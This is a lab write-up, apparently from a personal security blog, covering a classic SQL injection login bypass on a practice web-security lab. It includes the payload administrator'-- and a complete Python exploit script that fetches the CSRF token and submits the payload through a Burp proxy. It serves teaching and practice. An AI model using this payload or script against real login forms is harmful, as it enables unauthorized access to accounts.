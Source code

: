 ```yaml
---
title: 'SQLi Lab 2'
description: 'Bypassing authentication through classic SQL injection on a vulnerable login form.'
---
```



## SQL injection vulnerability allowing login bypass

<div style="text-align: justify;">
  In this lab, I exploited a classic SQL injection vulnerability in a login form to bypass authentication. By injecting malicious input directly into the username field, I was able to manipulate the backend SQL query and log in as the administrator—without needing the actual password. This vulnerability highlights the critical importance of sanitizing user input and using parameterized queries to prevent injection attacks.

  The bypass was achieved using a simple payload that comments out the password check portion of the SQL query. It was also essential to dynamically extract the CSRF token from the login page, as the application enforced token-based protection for form submissions.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The login form input is vulnerable to SQL injection.
- Use a crafted username: `administrator'--` to bypass password validation.
- The server executes a manipulated SQL query and logs you in as the administrator.
- CSRF token is fetched dynamically to make a valid login attempt.
- A successful login is confirmed when the usual "Invalid username or password" error does not appear.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3
from bs4 import BeautifulSoup

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def get_csrf_token(s, url):
    uri = "/login"
    r = s.get(url + uri , verify=False, proxies=proxies)
    soup = BeautifulSoup(r.text, 'html.parser')
    csrf = soup.find("input") ['value']
    return csrf

def exploit_sqli(s, url, payload):
    csrf = get_csrf_token(s, url)
    data = {"csrf": csrf,
            "username": payload,
            "password": payload}
    uri = "/login"
    r = s.post(url + uri, data=data, verify=False, proxies=proxies)
    res = r.text
    
    if "Invalid username or password." in res:
        return False
    else:
        return True
    
if __name__ == "__main__":
    try:
        url = sys.argv[1].strip()
        sqli_payload = "administrator'--"
    except IndexError:
        print("[-] Usage: %s <url>" %sys.argv[0])
        print('[-] Example: %s www.example.com' %sys.argv[0])
        
    s = requests.Session()
    
    if exploit_sqli(s, url, sqli_payload):
        print("[+] SQL injection successful! We have logged in as the administrator user.")
    else:
        print("[-] SQL injection unsuccessful.")
```


<Comment />
